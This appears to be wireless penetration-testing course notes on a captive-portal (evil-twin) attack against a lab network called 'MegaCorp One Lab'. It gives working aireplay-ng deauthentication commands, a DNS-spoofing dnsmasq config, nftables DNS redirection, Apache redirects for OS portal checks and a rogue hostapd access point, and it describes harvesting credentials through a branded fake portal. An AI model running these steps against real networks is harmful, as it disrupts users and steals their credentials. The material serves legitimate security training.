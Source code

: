 # Attacking captive portals

### Discovery

we'll run **sudo airmon-ng start wlan0** to start in monitor mode.

Next, we can use our new interface (wlan0mon) with airodump-ng to capture information about the clients and APs around us.

```
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```

We will need to intercept a handshake from one of the clients. To do so, we can either wait for one to connect or reconnect, or we can use aireplay-ng to deauthenticate clients. This will force them to reconnect and should allow us to capture the handshake.

```
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
```

Shortly after this, airmon-ng captures a "MegaCorp One Lab" handshake which is now saved in our discovery-01.cap file.

### Building the Captive Portal

In this scenario, our target does not have an existing captive portal, so our next step will be to create one that appears to be authentic. In order to avoid suspicion, we'll want to use branding and images that will be recognizable and familiar to users. We'll also use PHP scripts to save credentials that a user enters, and then we'll redirect the user to a success or failure page.

### Networking Setup

We will first assign an IP address to our wlan0 interface.

```
sudo ip addr add 192.168.87.1/24 dev wlan0
```

We will have clients connecting to us, and in order for them to reach our captive portal, they need an IP configuration. Thankfully, the first thing the user will do is request a Dynamic Host Configuration Protocol (DHCP) lease. We will provide that using _dnsmasq_ a small DNS/DHCP server.

We will use the following mco-dnsmasq.conf configuration file for DHCP.

```
# Main options
# http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
domain-needed
bogus-priv
no-resolv
filterwin2k
expand-hosts
domain=localdomain
local=/localdomain/
# Only listen on this address. When specifying an
# interface, it also listens on localhost.
# We don't want to interrupt any local resolution
# since the DNS responses will be spoofed
listen-address=192.168.87.1

# DHCP range
dhcp-range=192.168.87.100,192.168.87.199,12h
dhcp-lease-max=100

# This should cover most queries
# We can add 'log-queries' to log DNS queries
address=/com/192.168.87.1
address=/org/192.168.87.1
address=/net/192.168.87.1

# Entries for Windows 7 and 10 captive portal detection
address=/dns.msftncsi.com/131.107.255.255
```

Now that the configuration file is complete, let's start dnsmasq with --conf-file followed by the path of our configuration file.

```
sudo dnsmasq --conf-file=mco-dnsmasq.conf
```

Sometimes clients ignore DNS settings provided in the DHCP lease, and we will use an _nftables_[5](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-captive-portals-15795/the-captive-portal-attack-15859/networking-setup-16080#fn-local_id_271-5) rule to force redirect all DNS requests (UDP to port 53 only--TCP port 53 is for _zone transfer_[6](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-captive-portals-15795/the-captive-portal-attack-15859/networking-setup-16080#fn-local_id_271-6)) back to our server.

To do this, we need to install nftables and then add the rules.

{% code overflow="wrap" %}
```
sudo apt install nftables

sudo nft add table ip nat

sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'

sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```
{% endcode %}

In Apache's site configuration, we need to add _mod\_rewrite_[7](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-captive-portals-15795/the-captive-portal-attack-15859/networking-setup-16080#fn-local_id_271-7) and _mod\_alias_[7:1](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-captive-portals-15795/the-captive-portal-attack-15859/networking-setup-16080#fn-local_id_271-7) rules so that the captive portal is set properly. We'll add the following lines in /etc/apache2/sites-enabled/000-default.conf before the _VirtualHost_ closing tag.

```
  # Apple
  RewriteEngine on
  RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
  RewriteCond %{HTTP_HOST} !^192.168.87.1$
  RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L,R=302]

  # Android
  RedirectMatch 302 /generate_204 http://192.168.87.1/portal/index.php

  # Windows 7 and 10
  RedirectMatch 302 /ncsi.txt http://192.168.87.1/portal/index.php
  RedirectMatch 302 /connecttest.txt http://192.168.87.1/portal/index.php

  # Catch-all rule to redirect other possible attempts
  RewriteCond %{REQUEST_URI} !^/portal/ [NC]
  RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L]
```

### Setting Up and Running the Rogue AP

The last item on our list is the rogue AP configuration file. We will be using _hostapd_[1](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-captive-portals-15795/the-captive-portal-attack-15859/networking-setup-16080#fn-local_id_272-1) to run the AP. We can install it with sudo apt install hostapd.

```
interface=wlan0
ssid=MegaCorp One Lab
channel=11

# 802.11n
hw_mode=g
ieee80211n=1

# Uncomment the following lines to use OWE instead of an open network
#wpa=2
#ieee80211w=2
#wpa_key_mgmt=OWE
#rsn_pairwise=CCMP
```

```
sudo hostapd -B mco-hostapd.conf
```


